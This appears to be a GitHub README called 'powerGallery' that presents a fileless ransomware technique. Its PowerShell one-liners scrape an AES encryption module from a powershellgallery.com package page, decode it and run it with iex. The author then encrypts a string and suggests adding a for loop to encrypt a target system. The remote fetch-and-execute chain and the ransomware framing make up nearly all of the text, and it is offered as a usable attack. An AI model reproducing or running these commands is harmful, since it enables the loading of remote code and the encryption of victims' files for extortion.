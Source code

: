 # powerGallery

This one liner will load the neccessary files to encrypt a system straight from the trusted powershellgallery.com website.
Used in conjunction with a simple for loop its is now fileless ransomware hosted and executed from your platform

```powershell
([regex]::Matches((irm "https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<[^>]*>'-replace'^\s*',''-replace '[^\x20-\x7E]'|iex
```

Next its as simple as running the commands stored in that module agaisnt the system
In this instance we can encrypt a string, but why stop there? 

```powershell
$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

Combining them into a simple one liner. Together with yet another simple functionality the `for loop` you should be able to see the danger
We could run fileless ransomware on a target computer all from a trusted source

```powershell
([regex]::Matches((irm "https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<[^>]*>'-replace'^\s*',''-replace '[^\x20-\x7E]'|iex;$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```
